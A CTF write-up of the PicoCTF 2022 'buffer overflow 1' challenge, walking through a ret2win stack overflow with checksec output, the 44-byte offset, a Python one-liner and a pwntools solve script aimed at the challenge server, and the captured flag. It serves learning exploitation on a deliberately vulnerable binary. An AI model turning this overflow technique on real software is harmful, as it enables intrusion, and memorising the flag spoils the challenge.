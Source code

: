 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 1"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
---
```


This is the first "proper" binary exploitation (ret2win) challenge in this CTF.

For this challenge, I found John Hammond's [walkthrough video](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB) to be extremely helpful and informative.


## My solution
Firstly, let's download the provided files.
```
wget https://artifacts.picoctf.net/c/187/vuln
wget https://artifacts.picoctf.net/c/187/vuln.c
```

Let's take a look at `vuln`. Using `file` and `checksec`, we observe the following:
```
$ file vuln
>> vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, 
BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
$ checksec vuln                                                                     
[] '/mnt/c/Users/yihao/Downloads/picoCTF/2022/blog/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```
We observe that the file is a 32-bit ELF file. It was also compiled on
a little-endian system.

Now, looking at `vuln.c`, we can see that the provided file has a read buffer size of 32. 
It also used the `gets()` function to retrieve user input within the `vuln()`
function. Lastly, the return address is also printed out. There is also a `win()`
function present.

Evidently, we will need to control the return address to call the `win()`
function.  

I then decided to do some experimenting, where I wanted to see how many 'A's will cause the return address to be overwritten. 
Using 32 'A's, we observe that the program returned to this address:
`0x804932f`.

I used GDB to disassemble the program, in order to determine which instruction
this specific address points to. Using GDB:
```
$ gdb vuln
>> ...
gef> disas main
...
 0x0804932f <+107>:   mov    eax,0x0
...
```
Thus, it appears that this specific address is bound to a move instruction in
`main()`.

Through further trial and error, I found that around 44 'A's were required to clobber the return address.
I can then run `readelf -s vuln` to look for the return address of `win()`. From here, we note that the return address is `0x080491f6`.

Now, we can generate the payload. Take note of the endianness when generating the payload. In this case, we want to order our bytes in "reverse", since the executable runs on a little-endian system.

Using Python 2.7 to pipe the payload directly into the program: 
```bash
python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc saturn.picoctf.net 60801 
```

Alternatively, using Python 3 to send payload through a solver script:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln')
# p = process(elf.path)
p = remote('saturn.picoctf.net',60801)

# payload buffer
payload = b'A' * 44
payload += p32(0x080491f6)

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
Both methods enable us to obtain the flag.
```
[+] Opening connection to saturn.picoctf.net on port 60801: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Please enter your string:'
[*] Switching to interactive mode

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 60801
```

## Learning Takeaways
Some general tips I picked up:
- Play around with the program to test the number of dummy characters required to clobber the return address of our intended functions.
    - We also can use GDB/GEF to determine the offsets, but that will be covered in
  a later writeup. :)
- Get familiar with `readelf`.
- Even though the Python 2 solution is quicker, it'll be better to get used to
  Python 3 and pwntools (as well as how bytestrings are handled in Python 3).
- Always make sure to check endianness, so that the payload can be generated correctly.

Thanks for reading!
